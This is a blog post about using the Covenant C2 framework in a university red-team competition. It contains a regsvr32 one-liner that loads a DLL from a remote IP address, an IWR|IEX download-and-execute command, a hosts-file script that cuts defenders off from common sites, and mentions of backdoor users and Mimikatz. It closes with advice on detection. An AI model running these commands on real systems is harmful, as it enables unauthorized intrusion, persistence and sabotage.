 ```yaml
---
layout: post
title: Power of Covenant
subtitle: Deploying Covenant
tags: 
    - redteam
    - windows
    - c2
    - security
    - powershell
    - docker
comments: true
published: true
image: /img/covenant_redteaming/pwnboard_image.png
---
```


# Using Covenant & Red Teaming 

### Introduction

This past weekend, I had my first ever red teaming experience at 
University of Buffalo called [Lockdown](https://lockdown.ubnetdef.org/).
I knew from the start I would be tackling Windows for this competition; 
however, I wasn't sure what I wanted to do. Did I want to use 
Empire, Metasploit, maybe Pupy? The answer was none of the above.
For this competition I wanted to try out something new.

### Deploying Covenant
I decided to go with [Covenant](https://github.com/cobbr/covenant).
This is a fairly recent C2 that came out a couple months ago
based on the .NET framework and written in C#. An interesting
aspect of this C2 is that it's divided into two parts, Covenant
is the server and [Elite](https://github.com/cobbr/Elite) 
is what interacts with the server. The last part is 
just Grunts, that is just the Implant. 
One of the issues I came across when testing this is out is
how long it took to set up, I just wanted to at the start of the competition
hit a button and have everything I needed. With some help from
Docker I created a docker-compose file to assist me. This 
[file](https://github.com/NotoriousRebel/covDeploy) did the
heavy lifting for me. One really awesome aspect of this C2 was
that we could spin up Covenant on one server and when anyone
ssh'd onto our server it would docker-compose up Elite for them. 
This meant they didn't have to download docker-compose and would make
things centralized. 

![Plan](/img/covenant_redteaming/plan.png)


### Using Covenant
Deployment was trivial all we had to do was docker-compose up.

![Easy-Deployment](/img/covenant_redteaming/easy_deployment.png)

In reality we would want to tack on -d when composing Covenant
to background it. 

Using powershell with a remote session would be too noisy, 
extremely easy to notice, and trivial to kill. 
To make things stealthier I decided to go with registering a dll and utilizing Regsvr32.
As Regsvr32 is developed by Microsoft and in apart of System32
it would look a lot less suspicious. However, this requires
the dotnet framework to be installed on the target machine.
Luckily this is a oneliner that doesn't require a restart.

```powershell
Add-WindowsCapability –Online -Name NetFx3~~~~ –Source D:\sources\sxs
```
The launcher is just a simple one liner, and the icing on the cake
is that we can have our server host the dll file instead of having to get that file
on the target machine.

![Launcher](/img/covenant_redteaming/launcher.png)

```powershell
regsvr32 /u /s /i:http://129.21.228.140/demo.dll scrobj.dll
```
/u: Unregister server calling DllRegisterServer

/s: Silent: display no message boxes.

/i: Since used with /u calls Dll uninstall

scobj.dll: Is the Dllname that the entry points on.

Once ran on the target machine we get a nice beacon back
and can have some fun. For the competition one of the most important
things to do is maintain persistence. Making sure to add backdoor
users, firewall rules, scheduled tasks, and services were essential.
One service that was critical is WinRM to allow us to remotely run
scripts. Making sure it was running was quite simple with 
Covenant.

![Restarting_Winrm](/img/covenant_redteaming/example_powershell.png)

Although, in most cases we had those commands in a powershell
file hosted somewhere so we were able to simply do. 
```powershell
(IWR -Uri "https://hostingsite.com" -UseBasicParsing).Content | IEX
```
IWR: Invoke-WebRequest

IEX: Invoke-Expression

It was also fun messing with them by doing very basic things
such as messing with the hosts file in Windows.

```powershell
    $hosts_path = "C:\Windows\System32\drivers\etc\hosts"
    $local = "127.0.0.1"
    $text = @"
    $local      github.com
    $local      termbin.com
    $local      pastebin.com
    $local      tinyurl.com
    $local      bitly.com 
    $local      google.com
    $local	stackoverflow.com
    $local 	raw.githubusercontent.com
    $local 	chocolatey.org
    $local 	docs.microsoft.com
    $local 	wireshark.org
"@ 
    Add-Content -Path $hosts_path -Value $text
```

Of course Covenant had some nice features such as 
GetSystem which allowed us to run things at System level. While
also having standard things such as Mimikatz and Registry 
manipulation. However, a pretty unique feature was the integration of allowing
people to run C# sharp code.

### Customization 

Covenant on it's own is great; however, as part of the
[RITSECRedTeam](https://github.com/RITRedTeam) we like to keep track of things.
One of the most important things is the [pwnboard](https://github.com/micahjmartin/pwnboard).
The pwnboard is a visualization to keep track of what we have control of and to
see what teams are giving us trouble.

![pwnboard-blue](/img/covenant_redteaming/pwnboard.png)

To show that you have control of a box is a mere post request with
json that contains the ip and type of beacon. There is one obvious problem,
Covenant doesn't automatically do this. That's ok I was planning on 
learning C#. After talking to the developer to figure out where to 
make the post request to pwnboard whenever a Grunt was created.

![post_req](/img/covenant_redteaming/post_topwnboard.PNG)

This function is inside Covenant/GruntController.cs, 
it just does a post request using the Grunt's ip address 
wrapped inside a try catch statement in case we lose connection.

Due to last minute complications, the dotnet framework couldn't 
be installed on every Windows box so I used a powershell launcher
for all of the boxes as well as the Regsvr32 launcher if possible.
As we could prebake our stuff I was able to deploy to all of the boxes
and watch the beacons rain down as well as turn the pwnboard red.

![pwnboard-red](/img/covenant_redteaming/pwnboard_red.PNG)

At the start of the competition these are just some of the beacons.

![call_backs](/img/covenant_redteaming/call_backs.PNG)

### Mitigation

Monitoring processes and network traffic on your system is 
crucial as it will be much easier to spot when something 
is out of the ordinary. For example if you've never seen
Regsvr32 running on your system before it might be worthwhile
to investigate and you would be shocked at what you find.

![RegsvrImage](/img/covenant_redteaming/procexp_regsvr.png)

However, knowing what's going in and out of your network is just as 
important if you opened wireshark and noticed a lot of http
traffic that would be highly suspicious.
For example, if you noticed this http traffic.

![http-traffic](/img/covenant_redteaming/http_traffic.png)

Upon noticing this you followed the http stream you would notice this.

![encoded-command](/img/covenant_redteaming/long-command.PNG)

### Take Aways

Although Covenant may seem somewhat limited in what it can
do compared to other C2's such as Powershell Empire
or Pupy. You have to keep in mind this came out about in February, 
regardless Covenant can already do a lot and comes with a vast amount
of rich features that are hard to ignore. 
Overall Covenant is a solid choice for a C2 framework.

References:

[Regsvr32 Info](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/regsvr32)